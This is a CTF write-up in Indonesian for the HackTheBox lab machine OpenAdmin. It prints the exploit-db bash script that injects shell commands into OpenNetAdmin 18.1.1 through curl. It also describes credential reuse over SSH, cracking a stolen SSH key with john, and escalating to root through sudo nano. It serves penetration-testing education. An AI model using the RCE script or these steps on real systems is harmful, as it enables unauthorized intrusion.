# OpenAdmin (Linux)



Sebuah machine Linux, dengan IP 10.10.10.171, dilihat dari review peserta lain maka challenge ini akan banyak menggunakan CVE, Enumerasi dan mirip dengan CTF.

### Enumeration

Pertama mari kita lakukan nmap scan terlebih dahulu, didapatkan result seperti ini

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-05 00:23 EST
Nmap scan report for 10.10.10.171
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/5%OT=80%CT=1%CU=44689%PV=Y%DS=2%DC=T%G=Y%TM=5E11734E
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=B)SEQ(
OS:SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%TS=B)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
 
Network Distance: 2 hops
 
TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   281.12 ms 10.10.14.1
2   348.60 ms 10.10.10.171
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.01 seconds
```

### User

Bisa ditemukan sebuah website dan sebuah SSH service yang berjalan. Mari kita dirbuster website yang berjalan.



Kita bisa menemukan sebuah directory yang bernama ona, mari kita buka



Ditemukan sebuah web application, ternyata ona adalah singkatan dari OpenNetAdmin. Kebiasaan saya setelah menemukan sebuah web application maka saya akan mencari tentang vulnerabilitiesnya.

Kita mengetahui versi dari OpenNetAdmin yang digunakan, yaitu versi 18.1.1

Ternyata ada vulnerability RCE, penulis mengambil shell script dari exploitdb

```
#!/bin/bash
 
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Script ini akan menyedikan kita dengan low priviledge shell sebagai www-data



Kita sudah masuk sebagai www-data, mari kita enumerasi untuk mendapatkan user dan root nya.



Berikut daftar file dan directory yang bisa kita lihat di lokasi kita saat itu



Dirlisting juga bisa digunakan pada website, jadi kita bisa lebih mudah melihat file file lain yang ada di directory. Karena kita tidak bisa cd kedalam directory yang kita ls tadi, sebab kita hitungannya masih RCE bukan Shell.

Pada config.inc.php penulis menemukan sebuah clue berupa



Mari kita cek isi dari directory /local/config oh ternyata ada file bernama database_settings.inc.php, jika di cat kita akan mendapatkan credentials untuk database yang digunakan website ini.



Karena tidak menemukan yang berguna lagi untuk dicari cari, maka penulis mencoba untuk berpikir kembali, dan ingat bahwa ada service SSH yang belum dicoba, maka mari kita mencoba menggunakan user tersebut ke SSH.

Gagal, namun penulis ternyata bisa mengecek existing user



Ada user jimmy dan joanna, mari kita coba dengan username jimmy dan password dari config file tadi.



Baik, kita sudah masuk sebagai jimmy namun user.txt tidak ada di home directory user jimmy. Kita harus masuk sebagai user joanna untuk cat user.txt

Pada file /var/www/internal saya menemukan main.php



Bisa dilihat main.php ini akan melakukan cat terhadap id_rsa milik joanna, jika kita mendapatkannya maka kita juga akan bisa login sebagai joanna.

Bagaimana cara kita bisa menjalankan main.php ini? Pertama mari kita cek virtual host nya untuk mencari si “internal” ini



Baiklah kita mendapatkan cara mengakses website internal, kita harus mengarahkan request ke localhost denan port 52846 dan langsung tembak ke main.php untuk mendapatkan id_rsa milik joanna

Mari kita coba menggunakan curl saja



Wakwau kita mendapatkan id_rsa milik joanna, sekarang kita hanya perlu cracking passphrasenya agar kita bisa login sebagai joanna menggunakan id_rsa nya.

Penulis akan menggunakan john dan ssh2john.



Kita mendapatkan passphrase dari id_rsa milik Joanna, lets login SSH



### Root

Mari lanjutkan dengan enumerasi menggunakan LinEnum.sh

Perlu dilihat dari result LinEnum.sh ini adalah bagian ini



Joanna bisa menjalankan nano /opt/priv dengan priviledge root, alias kita dikasi root cuma cuma.

Dengan referensi GTFOBins, kita bisa membuka terminal didalam nano



# Rooted !